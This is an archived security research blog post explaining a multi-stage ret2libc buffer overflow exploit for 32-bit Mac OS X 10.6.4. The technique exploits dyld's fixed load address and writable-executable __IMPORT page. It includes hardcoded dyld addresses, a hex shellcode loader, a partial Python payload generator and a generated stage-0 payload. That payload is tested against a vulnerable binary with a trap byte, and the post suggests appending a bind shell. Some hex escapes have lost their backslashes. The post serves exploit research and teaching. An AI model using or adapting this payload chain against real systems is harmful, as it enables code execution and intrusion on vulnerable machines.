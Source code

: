 ```yaml
---
title: Simple Mac OS X ret2libc exploit (x86)
author: longld
layout: post

shorturls:
  - 'a:4:{s:5:"bitly";s:0:"";s:9:"permalink";s:71:"http://www.vnsecurity.net/2010/10/simple-mac-os-x-ret2libc-exploit-x86/";s:7:"tinyurl";s:26:"http://tinyurl.com/35yhmfz";s:4:"isgd";s:18:"http://is.gd/fUAZp";}'
tweetbackscheck:
  - 1408358974
aktt_notify_twitter:
  - no
twittercomments:
  - 'a:32:{i:26539715084;s:7:"retweet";i:26538286221;s:7:"retweet";i:26536522154;s:7:"retweet";i:26520380144;s:7:"retweet";i:26514897500;s:7:"retweet";i:26513100946;s:7:"retweet";i:26504151439;s:3:"430";i:26495351449;s:3:"431";i:26493490627;s:7:"retweet";i:26489800605;s:7:"retweet";i:26481180070;s:7:"retweet";i:26481124490;s:7:"retweet";i:26481072636;s:7:"retweet";i:26481059761;s:7:"retweet";i:26480946053;s:7:"retweet";i:26480917203;s:7:"retweet";i:26479334248;s:7:"retweet";i:26479224531;s:7:"retweet";i:26478784886;s:7:"retweet";i:26476778418;s:7:"retweet";i:26472792944;s:7:"retweet";i:26466344621;s:7:"retweet";i:26466033093;s:7:"retweet";i:26466030274;s:7:"retweet";i:26464938746;s:7:"retweet";i:26464387128;s:7:"retweet";i:26463995575;s:7:"retweet";i:26463608056;s:7:"retweet";i:26442315197;s:7:"retweet";i:26437569074;s:7:"retweet";i:26437440169;s:7:"retweet";i:26437166351;s:7:"retweet";}'
tweetcount:
  - 32
categories:
  - research
tags:
  - OSX
  - return-oriented-programming
  - return-to-libc
  - ropeme
---
```

Talking about buffer overflow exploit on x86, Mac OS X is the most easy and hacker friendly target compare to Linux or Windows. OS X always loads **/usr/lib/dyld **at a fixed location and it contains a lot of helper stubs to launch the exploit. If you want something advanced likes ROP (Return-Oriented-Programming) exploit you may have a look at &#8220;<a href="http://trailofbits.com/2010/07/21/mac-os-x-return-oriented-exploitation/" target="_blank">Mac OS X Return-Oriented Exploitation</a>&#8221; and thorough step-by-step guide &#8220;<a href="http://www.exploit-db.com/osx-rop-exploits-evocam-case-study/" target="_blank">OSX ROP Exploit – EvoCam Case Study</a>&#8220;. But actually, we don&#8217;t need ROP for 32-bit exploitation on OS X, simple ret2libc is enough and straightforward to implement. Let take a look at multi-stage ret2libc exploit on OS X.

## The target

Under OSX, dyld is always loaded at a fixed location with __IMPORT page is RWX as shown below:

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__TEXT                 8fe00000-8fe0b000 [   44K] r-x/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__TEXT                 8fe0b000-8fe0c000 [    4K] r-x/rwx SM=PRV  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__TEXT                 8fe0c000-8fe42000 [  216K] r-x/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__LINKEDIT             8fe70000-8fe84000 [   80K] r&#8211;/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__DATA                 8fe42000-8fe44000 [    8K] rw-/rwx SM=PRV  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__DATA                 8fe44000-8fe6f000 [  172K] rw-/rwx SM=COW  /usr/lib/dyld
</div>

<div id="_mcePaste" style="width: 1px;height: 1px;overflow: hidden">
  #__IMPORT               8fe6f000-8fe70000 [    4K] rwx/rwx SM=COW  /usr/lib/dyld
</div>

<pre><strong>__TEXT                 8fe00000-8fe0b000 [   44K] r-x/rwx SM=COW  /usr/lib/dyld</strong>
__TEXT                 8fe0b000-8fe0c000 [    4K] r-x/rwx SM=PRV  /usr/lib/dyld
__TEXT                 8fe0c000-8fe42000 [  216K] r-x/rwx SM=COW  /usr/lib/dyld
__LINKEDIT             8fe70000-8fe84000 [   80K] r--/rwx SM=COW  /usr/lib/dyld
__DATA                 8fe42000-8fe44000 [    8K] rw-/rwx SM=PRV  /usr/lib/dyld
__DATA                 8fe44000-8fe6f000 [  172K] rw-/rwx SM=COW  /usr/lib/dyld
<strong>__IMPORT               8fe6f000-8fe70000 [    4K] rwx/rwx SM=COW  /usr/lib/dyld</strong></pre>

<span style="font-family: Georgia, 'Times New Roman', 'Bitstream Charter', Times, serif;line-height: 19px;font-size: 13px">Our target is to transfer the desired shellcode to the __IMPORT section of dyld then execute it. We can simply do this with byte-per-byte copy way of <a href="http://www.vnsecurity.net/2010/08/ropeme-rop-exploit-made-easy/">ROPEME</a>. There is some disadvantages with this method:</span>

<span style="font-family: Georgia, 'Times New Roman', 'Bitstream Charter', Times, serif;line-height: 19px;font-size: 13px"> </span>

*   Payload size is large, around 10 times of actual shellcode
*   We have to re-generate the whole payload when changing to new shellcode

With OS X we can do it better as there is a RWX page at static location.

## Staging payload

The most complicated part of ROP technique is &#8220;stack pivoting&#8221; or ESP register control under ASLR. By executing a small shellcode we can take ESP under control easily. Our multi-stage payload will look like:

### Stage-2: actual shellcode

This is the last stage in our multi-stage payload. Any NULL-free shellcode can be used, e.g bind shell code from Metasploit.

### Stage-1: shellcode loader for stage-2 payload

This stage will transfer stage-2 payload on stack to __IMPORT section (RWX) of dyld then executes it. The transfer function is *_strcpy() *in dyld. Below small shellcode will be executed on RWX page to perform the job:

<pre># 58                pop eax     # eax -&gt; TARGET
# 5B                pop ebx     # ebx -&gt; STRCPY
# 54                push esp    # src -&gt; &shellcode
# 50                push eax    # dst -&gt; TARGET
# 50                push eax    # jump to TARGET when return from _strcpy()
# 53                push ebx    # STRCPY
# C3                ret         # execute _strcpy(TARGET, &shellcode)</pre>

### Stage-0: ret2libc loader for stage-1 payload

This stage will transfer 7 bytes of stage-1 payload to our RWX location using repeated *_strcpy() *calls, then executes it. We lookups the dyld for necessary byte values and copy it to the target byte-per-byte.

In summary, there is some advantages with our multi-stage payload:

*   Straightforward to implement: only ret2libc calls, no gadget is required
*   Payload size overhead is small: around 100 bytes
*   Independent, generic loader code: no need to regenerate the whole payload, just append a new shellcode to make new payload

## Automated payload generator

Let put all this together and make an automated payload generator in Python.

*   Select the target

<pre class="brush: python; title: ; notranslate" title="">#__IMPORT               8fe6f000-8fe70000 [    4K] rwx/rwx SM=COW  /usr/lib/dyld
TARGET = 0x8fe6f010 # to avoid NULL byte
# dyld base address
DYLDADDR = 0x8fe00000
</pre>

*   Extract dyld&#8217;s i386 code

<pre class="brush: python; title: ; notranslate" title=""># $ otool -f /usr/lib/dyld
# ...
#architecture 1
#    cputype 7
#    cpusubtype 3
#    capabilities 0x0
#    offset 352256
#    size 368080
#    align 2^12 (4096)
# ...

DYLDFILE = "/usr/lib/dyld"
DYLDCODE = open(DYLDFILE, "rb").read()
DYLDCODE = DYLDCODE[352256 : 352256+368080]
</pre>

*   _strcpy() call

<pre class="brush: python; title: ; notranslate" title=""># $ nm -arch i386 /usr/lib/dyld | grep _strcpy
# 8fe2db10 t _strcpy
STRCPY = 0x8fe2db10

# $ otool -arch i386 -tv /usr/lib/dyld | grep pop -A2 | grep ret -B1 | grep pop
# 8fe28790        popl    %edi
# 8fe2b3d4        popl    %edi
POP2RET = 0x8fe2878f
</pre>

*   stage-1

<pre class="brush: python; title: ; notranslate" title=""># stage1
# 58                pop eax     # eax -&gt; TARGET
# 5B                pop ebx     # ebx -&gt; STRCPY
# 54                push esp    # dst -&gt; &shellcode
# 50                push eax    # src -&gt; TARGET
# 50                push eax    # jump to TARGET when return from _strcpy()
# 53                push ebx    # STRCPY
# C3                ret         # execute _strcpy(TARGET, &shellcode)

STAGE1 = "x58x5bx54x50x50x53xc3"
</pre>

*   stage-0

<pre class="brush: python; title: ; notranslate" title=""># stage0: _strcpy sequences
STAGE0 = gen_stage0(DYLDCODE, STAGE1)
</pre>

Below is the stage-0 payload loader generated for OS X 10.6.4:

<pre class="brush: python; title: ; notranslate" title="">STAGE0 = (  "x10xdbxe2x8fx8fx87xe2x8fx10xf0xe6x8fx31x24xe1x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx12xf0xe6x8fx32x01xe0x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx13xf0xe6x8fx7ex21xe1x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx15xf0xe6x8fx45x10xe0x8f"
            "x10xdbxe2x8fx8fx87xe2x8fx16xf0xe6x8fx44x10xe0x8f"
            "x10xf0xe6x8fx10xf0xe6x8fx10xdbxe2x8f" )
</pre>

Test the payload with simple buffer overflow:

<pre class="brush: plain; title: ; notranslate" title="">bash-3.2$ ./vuln "`python -c 'print "A"*272 + "x10xdbxe2x8fx8fx87xe2x8fx10xf0xe6x8fx31x24xe1x8fx10xdbxe2x8fx8fx87xe2x8fx12xf0xe6x8fx32x01xe0x8fx10xdbxe2x8fx8fx87xe2x8fx13xf0xe6x8fx7ex21xe1x8fx10xdbxe2x8fx8fx87xe2x8fx15xf0xe6x8fx45x10xe0x8fx10xdbxe2x8fx8fx87xe2x8fx16xf0xe6x8fx44x10xe0x8fx10xf0xe6x8fx10xf0xe6x8fx10xdbxe2x8f" + "xcc"*4'`

...

Trace/BPT trap

bash-3.2$

</pre>

Looking for the next? Maybe &#8220;Mac OS X ROP exploit on x86_64&#8243; someday.